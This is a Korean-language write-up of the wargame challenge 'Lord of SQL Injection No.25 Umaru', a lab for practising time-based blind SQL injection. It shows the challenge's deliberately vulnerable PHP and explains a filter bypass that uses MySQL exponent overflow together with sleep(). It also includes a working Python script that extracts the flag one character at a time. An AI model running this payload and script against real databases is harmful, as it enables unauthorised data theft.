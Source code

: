 # Lord of SQL Injection No.25 - Umaru
## 문제 출제 의도
Time Based SQL Injection의 이해 여부를 확인한다.
## 소스 코드 분석
+ 소스코드
~~~
    <?php
    include "./config.php";
    login_chk();
    dbconnect();

    function reset_flag(){
        $new_flag = substr(md5(rand(10000000,99999999)."qwer".rand(10000000,99999999)."asdf".rand(10000000,99999999)),8,16);
        $chk = @mysql_fetch_array(mysql_query("select id from prob_umaru where id='{$_SESSION[los_id]}'"));
        if(!$chk[id]) mysql_query("insert into prob_umaru values('{$_SESSION[los_id]}','{$new_flag}')");
        else mysql_query("update prob_umaru set flag='{$new_flag}' where id='{$_SESSION[los_id]}'");
        echo "reset ok";
        highlight_file(__FILE__);
        exit();
    }

    if(!$_GET[flag]){ highlight_file(__FILE__); exit; }

    if(preg_match('/prob|_|\./i', $_GET[flag])) exit("No Hack ~_~");
    if(preg_match('/id|where|order|limit|,/i', $_GET[flag])) exit("HeHe");
    if(strlen($_GET[flag])>100) exit("HeHe");

    $realflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru where id='{$_SESSION[los_id]}'"));

    @mysql_query("create temporary table prob_umaru_temp as select * from prob_umaru where id='{$_SESSION[los_id]}'");
    @mysql_query("update prob_umaru_temp set flag={$_GET[flag]}");

    $tempflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru_temp"));
    if((!$realflag[flag]) || ($realflag[flag] != $tempflag[flag])) reset_flag();

    if($realflag[flag] === $_GET[flag]) solve("umaru");
    ?>
~~~

+ 소스 코드 분석
    - 금지 문자, 문자열
        * GET 방식으로 받은 flag값에 'prob _ . 중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
        * GET방식으로 받은 flag값에 "id", "where","order","limit",',' 중 하나라도 있다면 "HeHe"가 출력되고 문제풀이에 실패한다.
        * 또한, flag의 길이가 100자 초과이면 "HeHe"가 출력되고 문제 풀이에 실패한다.

    - 사용자 정의 함수 reset_flag()
        * reset_flag는 prob_umaru 테이블에 사용자 세션 아이디 id, 새로운 랜덤 값 flag 레코드를 추가 또는 초기화 하는 함수이다.

    - 풀이 성공 조건
        * 데이터베이스에서 받은 기존의 flag값과 GET방식으로 전달받은 flag값이 정확히 같아야 한다.
## 문제 해결
- Mysql 지수 연산 최대치 이용
    + MySQL에서는 e를 이용한 지수 연산이 가능하다.
    ~~~
    >>> 9e0
    9.0
    >>> 9e1
    90.0
    >>>9e10
    90000000000.0
    ~~~
    + 지수 연산의 최대치는 9e307이다.
    + 9e308부터는 ERROR 1367 (22007): Illegal double '9e308' value found during parsing 와 같이 에러가 난다.
    + 이를 이용하여 9e307*2등을 이용해 에러를 유도 할 수 있다.
- sleep()
    + 파라미터의 초만큼 일시 정지하는 함수다.
    + 정상적으로 실행되면 0을 그렇지 않다면 1을 반환한다.
- pw 값
    + pw의 값은 다음과 같은 코드를 이용하여 알아낼 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote
    import time

    url = "http://los.eagle-jump.org/umaru_6f977f0504e56eeb72967f35eadbfdf5.php?flag="
    key = ""
    len=16

    for i in range(1, len+1):
        for j in range(48, 127):
            data = "(case(substr(flag from {} for 1)) when '{}' then ((sleep(4)+2)*9e307) else 9e307*2 end)".format(str(i), chr(j))
            print(data)
            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
            re.add_header("Cookie", "PHPSESSID=tb8r272e7i0jfhbeb522klmbm0")
            st = time.time()
            res = urllib.request.urlopen(re)
            et = time.time()

            if et-st > 4:
                key += chr(j).lower()
                print (key)
                break
    print (key)
    ~~~
    + 이를 이용하면 각자에게 맞는 pw 값이 출력된다.
    + 이를 GET 방식으로 입력하면 문제가 해결된다.